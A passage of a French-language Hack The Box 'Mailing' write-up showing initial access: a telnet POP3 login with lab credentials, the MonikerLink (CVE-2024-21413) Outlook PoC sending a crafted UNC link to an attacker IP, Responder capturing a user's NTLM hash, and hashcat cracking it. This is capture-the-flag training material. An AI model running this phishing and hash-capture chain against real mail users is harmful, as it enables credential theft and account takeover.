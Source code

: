 > Nous ne sommes pas en mesure de déchiffrer le deuxième hachage.

## Accès Initial

Nous pouvons utiliser Telnet pour tester la connexion POP3, les étapes sont expliquées [ici](https://www.resellerspanel.com/articles/cloud-web-hosting-articles/email/testing-incoming-mail-pop3-settings-via-telnet/).

```
telnet 10.129.59.26 110

USER administrator@mailing.htb
PASS homenetworkingadministrator
```

![POP3 mail box check](/images/HTB-Mailing/pop3-check.png)

La boîte aux lettres est vide, mais nous savons qu'il existe un serveur de messagerie avec authentification. Sur le site web, on peut lire: `Using any mail client you can connect to our server with your account with any system (Linux, MacOS or Windows)`.

La cible utilise Windows et donc très probablement Microsoft Outlook. L'une des vulnérabilités les plus récentes pour Outlook est [MonikerLink](https://blog.checkpoint.com/research/check-point-research-unveils-critical-monikerlink-vulnerability-in-microsoft-outlook-with-a-9-8-cvss-severity-score/), qui peut entraîner la fuite d'informations d'identification.

> Vous pouvez en appredre plus en consultant cette [room](https://tryhackme.com/r/room/monikerlink) sur TryhackMe.

A partir de là, nous trouvons un PoC pour cette vulnérabilité [ici](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability). Nous pouvons l'utiliser pour envoyer un email à un utilisateur valide et faire fuiter son hash NTLM.

> Après avoir lu les instructions PDF (disponibles en téléchargement sur le site web), nous découvrons que `maya@mailing.htb` est un utilisateur valide sur le serveur (page 16).

1. Lancer Responder 

```
sudo responder -I tun0
```

2. Envoyer l'email

```
python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient maya@mailing.htb --url '\\MY_IP_ADDRESS\test' --subject Hi
```

![Email sent via PoC](/images/HTB-Mailing/email_sent_poc.png)

3. Craquer le hachage reçu avec Responder

![Hash obtained for maya](/images/HTB-Mailing/responder-hash.png)

```
hashcat -a 0 -m 5600 maya_hash.txt /usr/share/wordlists/rockyou.txt
```
